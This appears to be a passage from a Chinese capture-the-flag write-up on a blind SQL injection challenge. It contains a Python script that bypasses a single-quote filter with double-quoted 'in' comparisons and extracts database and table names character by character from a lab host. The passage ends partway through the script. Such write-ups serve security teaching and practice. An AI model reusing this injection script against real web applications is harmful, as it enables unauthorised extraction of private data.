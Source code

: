 #### Solution

从题名可以看出，本题考察盲注，测试发现有一些过滤（单引号也被过滤了，但双引号没有），最后选用in进行注入，编写脚本：

```python
# coding=utf-8
import requests
import string
 
url = 'http://sec4.hdu.edu.cn:20003'
s = string.printable
payload='1" && (select substr("abc",1,1) in ("a"))'

def getDatabase():

    database = ''
    for i in range(50):
        for j in s:
            payload='1" && (select substr((select group_concat(schema_name) from information_schema.schemata),'+str(i+1)+',1) in ("'+str(j)+'")) -- '
            # print payload
            text = getData(url,payload)
            if 'find' in text:
                database += j
                print database
                break
 
    print '[*] Databases names is : ' + database

    # database = ""
    # for i in range(5):
    #     for j in s:
    #         # print str(j)
    #         payload='1" && (select substr(database(),'+str(i+1)+',1) in ("'+str(j)+'")) -- '
    #         # payload='1" %26%26 (select substr(database(),1,1) in ("'+str(j)+'")) --'
    #         # print (payload)
    #         text = getData(url,payload)
    #         # print text 
    #         if 'find' in text:
    #             # print text
    #             database += j
    #             print database
    #             break
    # print '[*] The current database is ' + database

def getTables(database):
    tables = ''
    for i in range(50):
        for j in s:
            payload='1" && (select substr((select group_concat(table_name) from information_schema.tables where table_schema in ("'+database+'")),'+str(i+1)+',1) in ("'+str(j)+'")) -- '
            # print payload
            text = getData(url,payload)
            if 'find' in text:
                tables += j
                print tables
                break
 
    print '[*] Tables names is : ' + tables
    table = tables.split(',')[0]


def getColumns(table):
    columns = ''
```